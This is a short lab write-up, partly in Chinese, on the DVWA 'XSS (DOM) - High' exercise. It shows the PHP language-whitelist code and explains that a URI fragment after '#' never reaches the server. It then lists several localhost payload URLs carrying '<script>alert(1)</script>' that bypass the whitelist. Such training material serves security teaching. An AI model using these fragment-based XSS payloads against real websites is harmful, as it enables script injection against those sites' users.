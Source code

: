 # XSS (DOM) - High

## View Source

```PHP
<?php

// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {

    # White list the allowable languages
    switch ($_GET['default']) {
        case "French":
        case "English":
        case "German":
        case "Spanish":
            # ok
            break;
        default:
            header ("location: ?default=English");
            exit;
    }
}

?>
```

## Code Review

- 白名單驗證是否為 *English* 等，否則重導向

## Answer

- [*RFC 3986: section 3.4*](https://www.rfc-editor.org/rfc/rfc3986#section-3.4)
    > *The query component is indicated by the first question mark ("?") character and terminated by a number sign ("#") character or by the end of the URI.*
- 意即 `#` 後面的不是 *query*，不會傳送到給網站服務
    - 可用 *F12 DevTools* 或是 *Burp Suite* 觀察
- 同理，*Medium Level* 也可用此方法
    - E.g., `http://127.0.0.1/vulnerabilities/xss_d/?#default=<script>alert(1)</script>`

### Example

```
http://127.0.0.1/vulnerabilities/xss_d/#default=<script>alert(1)</script>
http://127.0.0.1/vulnerabilities/xss_d/?default=#<script>alert(1)</script>
http://127.0.0.1/vulnerabilities/xss_d/?default=English#<script>alert(1)</script>
```